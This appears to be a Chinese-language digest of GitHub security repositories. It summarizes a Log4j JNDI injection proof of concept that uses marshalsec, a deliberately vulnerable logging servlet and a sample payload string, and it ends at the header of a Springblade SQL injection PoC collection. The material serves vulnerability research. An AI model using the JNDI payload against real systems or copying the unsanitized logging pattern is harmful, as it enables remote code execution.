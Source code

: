 #### 💡 分析概述

该仓库是一个Java安全漏洞复现项目，主要功能是复现Java相关的漏洞。本次更新新增了Log4j JNDI注入漏洞的POC。更新内容包括: 新增了exploitLog4jJNDI目录，其中包含README.md文件，详细介绍了漏洞利用方法和所需工具。 提供了marshalsec工具的使用方法，包括开启LDAP服务和开启HTTP服务的方法。 新增了Log4jExploit.java文件，用于触发漏洞。新增了Log4jExploitServlet.java文件，该文件定义了一个/exploit接口，通过该接口可以触发log4j的JNDI注入漏洞。 用户可以通过构造特定的URL参数来触发漏洞，例如：`URL/exploit?input=${jndi:ldap://127.0.0.1:1389/Log4jExploit}`。该更新提供了实际可用的POC，可以帮助安全研究人员复现和理解Log4j漏洞。

#### 🔍 关键发现

| 序号 | 发现内容 |
|------|----------|
| 1 | 新增Log4j JNDI注入漏洞的POC |
| 2 | 提供了marshalsec工具的使用方法 |
| 3 | 详细的漏洞复现步骤 |
| 4 | 通过修改tomcat，触发漏洞 |

#### 🛠️ 技术细节

> 通过marshalsec工具搭建LDAP和HTTP服务，利用JNDI注入触发Log4j漏洞，执行任意代码。

> 使用Tomcat作为web服务器，并构造恶意请求，将payload通过请求参数传递给Log4j，从而触发漏洞。

> Log4jExploit.java文件中的static代码块在类加载时被执行，实现弹计算器的功能。

> Log4jExploitServlet.java文件中的logger.error(userInput)存在漏洞，userInput参数可控。


#### 🎯 受影响组件

```
• Log4j
• Tomcat
• Java
```

#### ⚡ 价值评估

<details><summary>展开查看详细评估</summary></details>

---

### qc_poc - Springblade SQL注入POC集合

#### 📌 仓库信息

| 属性 | 详情 |
|------|------|
| 仓库名称 | [qc_poc](https://github.com/qingchenhh/qc_poc) |
| 风险等级 | `HIGH` |
| 安全类型 | `POC收集` |
| 更新类型 | `新增POC` |
